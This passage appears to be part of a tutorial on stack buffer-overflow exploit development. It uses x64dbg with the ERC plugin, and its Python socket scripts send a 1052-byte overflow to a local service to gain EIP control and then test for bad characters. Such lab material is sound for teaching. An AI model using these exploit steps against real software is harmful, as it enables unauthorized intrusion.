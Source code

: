 ```python
    s.send(pattern)
    s.close()
```

In **x64dgb** take the **EIP** value after sending the payload and calculate the bytes:
```
ERC --pattern o <pattern in ascii>
```

Now take control of the **EIP** adding 4 characters:
```python
def eip_control():
    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 8888))
    s.send(payload)
    s.close()
```

### Identifying Bad Characters 

The next step is to identify the bad characters. Remember that we can create a payload with:
```
ERC --bytearray
```

Modify the Python function:
```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])

    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()
```

Once we run the script compare the actual **ESP** address with a file that the command would create:
```
ERC --compare <ESP address> <path>\ByteArray_1.bin
```
